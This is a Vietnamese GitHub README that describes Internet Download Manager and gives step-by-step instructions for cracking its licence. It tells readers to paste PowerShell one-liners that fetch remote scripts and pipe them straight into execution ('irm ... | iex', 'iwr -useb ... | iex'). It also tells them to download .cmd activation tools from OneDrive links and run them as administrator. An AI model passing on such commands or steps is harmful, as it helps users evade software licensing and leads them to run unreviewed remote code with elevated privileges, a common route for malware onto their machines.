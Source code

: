 #  GIỚI THIỆU VỀ IDM: #

  - [Download bản cài đặt từ trang chủ](https://www.internetdownloadmanager.com/download.html)
  - Có thể tải file nhanh chỉ với một cú click chuột, bao gồm tất cả các file có dung lượng lớn lẫn download video, mp3, mp4...
  - Hỗ trợ tải file siêu tốc trên hầu hết các ứng dụng và trình duyệt phổ biến.
  - Sau khi quá trình tải về hoàn tất thì IDM sẽ tự động kiểm tra virus tự động.
  - Hỗ trợ nhiều định dạng file được tải về.
  - IDM hỗ trợ nhiều loại máy chủ Proxy khác nhau
  - Nếu quá trình tải về có gặp sự cố IDM sẽ tự động khôi phục lại quá trình tải về.
  - Bạn có thể hẹn lịch để tải IDM hoặc hẹn thời gian để khôi phục quá trình tải về và việc còn lại sẽ do IDM giải quyết
  - Hỗ trợ ngôn ngữ tiếng việt và nhiều ngôn ngữ khác nhau.

#  KÍCH HOẠT IDM BẰNG TOOL [Xem video](https://1drv.ms/v/s!AmvuvqBBIcK6i3IG-NvoWHiHsG9U?e=isFGBj) #
  
## Cách 1: ##
  - Kích hoạt trực tiếp từ **Windows PowerShell:**
  - Đầu tiên bấm tổ hợp phiếm: **Windows + R**, sau đó điền **PowerShell** rồi bấm enter.
  - ![image](https://github.com/BsNgChiThanh/Crack-IDM/assets/82578024/73f131a2-efd7-4c50-9a36-106b02d83fca)
  - Dán vào câu lệnh: **CD C:\Windows\System32** rồi enter
  - ![image](https://github.com/BsNgChiThanh/Crack-IDM/assets/82578024/cc4df65e-6cc1-47a1-a967-fe19d9983a26)
  - Dán câu lệnh: **irm https://massgrave.dev/ias | iex** vào và nhấn enter.
  - Hoặc câu lệnh:
  - Hoặc câu lệnh:
    
      ```php
     iwr -useb https://raw.githubusercontent.com/BsNgChiThanh/Crack-IDM/IMP/idm.ps1 | iex
      ```
      
      ```php
      iwr -useb https://raw.githubusercontent.com/ictcentervnn/CMD-WIN-IDM/main/idm.ps1 | iex
      ```
  - ![image](https://github.com/BsNgChiThanh/Crack-IDM/assets/82578024/cbb5b6a7-8f33-448b-ae33-5e8e1ce8a360)
  - ![image](https://github.com/BsNgChiThanh/Crack-IDM/assets/82578024/616ffd87-501e-4a6d-a85c-cf38ae23ecf1)

## Cách 2: ##

- Download Crack IDM từ trang chủ https://github.com/lstprjct/IDM-Activation-Script tìm tới: **Method 2 - Traditional** bấm vào dòng chữ gạch chân: ![image](https://github.com/BsNgChiThanh/Crack-IDM/assets/82578024/743f5238-74c8-4fac-875c-b940b1319305) hoặc bấm [vào đây](https://codeload.github.com/lstprjct/IDM-Activation-Script/zip/refs/heads/main)
- Cài xong thì dùng tool active bằng cmd:
  -  IDM-Activation-Script-main V1.2 [bấm vào đây để download](https://xupvsw.bn.files.1drv.com/y4mkTrkLtFVEKJuvB8elzEYqtAlkHUbf1mRKOC8E0iA4Ox4Hqx4G3YuXVOpEHPmb63_WGGCxoQUAp5_cHCjMg9eQNZe4prNBBAeYXDaYNjz0ZXridc4Ua686_Nr3oRR4i-ebZ4H6Q9L_0EBkj2hB0OcLnQ8ezaDPOssznMyBORHsQx0pThRmPZ7QhnuTCZxHAAqOyOno2Ji5HMa9ryCqxMm3A)
  -  IDM-Activation-Script-main V1.0 [bấm vào đây để download](https://vppvsw.bn.files.1drv.com/y4mE4WMMIaHi_eyiELZUyuN8BFO0ebCEddd90EVlJ9syFBEKDfQ9A_tJ_26t5znkmL-jd-S2wUAcbB0X5ONt3k2K7DwSx-DAMOIo-XF4vQS-4p78RdxKRMuEoIq96mYGhX0TWHcg5nIAiD-YQ3VI_nQL6EzVL0aiXf37NK5gGMLme0iU9A6GIJweFKRHXDEJq0AU1DfpKvRNa8wqtcckiCunQ)   
- ![image](https://user-images.githubusercontent.com/82578024/219615487-fc31fa4f-fdce-427b-b424-474def84c85a.png)
- Vô file kích hoạt Activation IDM.cmd bấm chuột phải chọn Run As Ministrator.
  - ![image](https://github.com/BsNgChiThanh/Crack-IDM/assets/82578024/29eb3adb-919d-4898-bee4-9db951bda7f2)
  - ![image](https://github.com/BsNgChiThanh/Crack-IDM/assets/82578024/61c4fcf6-a9fe-4359-b13c-578dfff6f415)
- Vào kiểm tra thấy như hình bên dưới là thành công:
- ![image](https://user-images.githubusercontent.com/82578024/219616425-1856bc05-22ee-4b23-b95e-21c4a90b3a29.png)
- Khi nó bị lỗi Fake key thì chạy lại file kích hoạt lại từ đầu.

Cài xong mởi IDM lên chỉnh thêm:

- Vô mụcb Download chọn Option
![image](https://user-images.githubusercontent.com/82578024/219293869-c017dc84-f0fa-48b7-81f0-c725b33dacdb.png)
![image](https://user-images.githubusercontent.com/82578024/219294320-c58a00b5-d0ad-4897-87d7-a56f513340fb.png)
![image](https://user-images.githubusercontent.com/82578024/219294530-0cf4ce34-86fa-4ab7-94ce-c6e702a7f0dc.png)
![image](https://user-images.githubusercontent.com/82578024/219294741-b5dea01a-df27-4a1a-bf32-082308a470af.png)

Nếu không có phần mở rộng của tẹp cần download thì thêm vô, vậy là hoàn tất!
